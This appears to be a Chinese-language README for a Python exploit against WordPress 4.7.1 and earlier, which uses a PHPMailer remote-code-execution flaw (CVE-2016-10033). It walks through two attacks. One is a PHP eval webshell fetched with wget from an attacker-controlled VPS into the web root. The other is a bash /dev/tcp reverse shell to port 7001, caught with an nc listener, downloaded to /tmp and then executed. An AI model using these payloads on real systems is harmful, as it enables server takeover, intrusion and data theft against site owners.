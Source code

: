 # WordPress-RCE-EXP
# 影响版本
漏洞编号：CVE-2016-10033 （基于）

WordPress <= 4.7.1 

PHPMailer < 5.2.18

# 0x1漏洞检测

```
python3 wp_rce_exp.py <目标> <目标站存在的用户名>

Python3 wp_rce_exp.py http://127.0.0.1/ admin
```
# 0x2漏洞利用
出现
Test_blind_shell>>>
后，说明网站存在RCE漏洞
有两种方式来漏洞利用

### 一、写入Webshell

 1.在vps上开web服务，在web目录下的test.txt文件中写入一句话
```
<?php @eval($_POST[test]); ?>
```

 
2.目标使用wget下载到web目录上
(注意vps需要用ip地址，前面不能加http://)
```
Test_blind_shell>>>/usr/bin/wget --output-document /var/www/html/shell.php VPS的ip/shell.txt
```
3.使用菜刀连接网站根目录的shell.php

### 二、反弹shell: 
1.在vps上开web服务，写shell.txt文件内容为 
```
bash -i >& /dev/tcp/VPS的ip/7001 0>&1
```


2.在VPS上使用nc监听7001端口 命令：

```
nc -lvp 7001
```


3.目标使用wget下载到/tmp目录/test.sh
```
Test_blind_shell>>>/usr/bin/wget --output-document /tmp/test.sh VPS的ip/shell.txt
```
4.执行下载到本地的脚本文件

```
Test_blind_shell>>>/usr/bash ./tmp/test.sh
```
注意命令执行需要加上绝对路径例如/bin/bash 有些特殊字符不能使用例如&分号引号等

